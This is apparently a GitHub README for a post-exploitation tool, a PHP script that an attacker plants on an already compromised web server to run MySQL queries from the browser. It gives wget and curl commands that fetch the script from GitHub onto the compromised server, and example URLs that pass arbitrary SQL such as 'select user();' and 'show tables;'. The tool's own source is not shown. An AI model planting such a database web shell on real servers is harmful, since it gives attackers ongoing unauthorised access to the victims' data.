 # MySQL-Web-Query

There are cases (in a post-exploitation scenario) where, after committing a web application and getting the shell, it is not possible to interact with MySQL due to the limitations of interaction from the shell that was obtained.

In this case **MySQL-Web-Query** can be useful.

### :hammer_and_wrench: Requirements

The compromised web server is required to use PHP technology and MySQL as DBMS.

### 📋 How to use

Transfer the script to the web server in a directory accessible by the browser:
```
wget https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php
```
or
```
curl https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php > query.php
```
<br>

You can query the database through parameters inserted in the URL. **db** (database) and **q** (query) parameters must be informed. Examples:
```
http://web_server/query.php?db=mysql&q=select user();
```
![image](https://user-images.githubusercontent.com/76706456/178148420-53e2f3bb-6071-486f-900a-6e0d6f7e0582.png)
```
http://web_server/query.php?db=mysql&q=show tables;
```
![image](https://user-images.githubusercontent.com/76706456/178148558-2921f6ad-45f9-446e-95c0-7b0ee3e9f0b0.png)
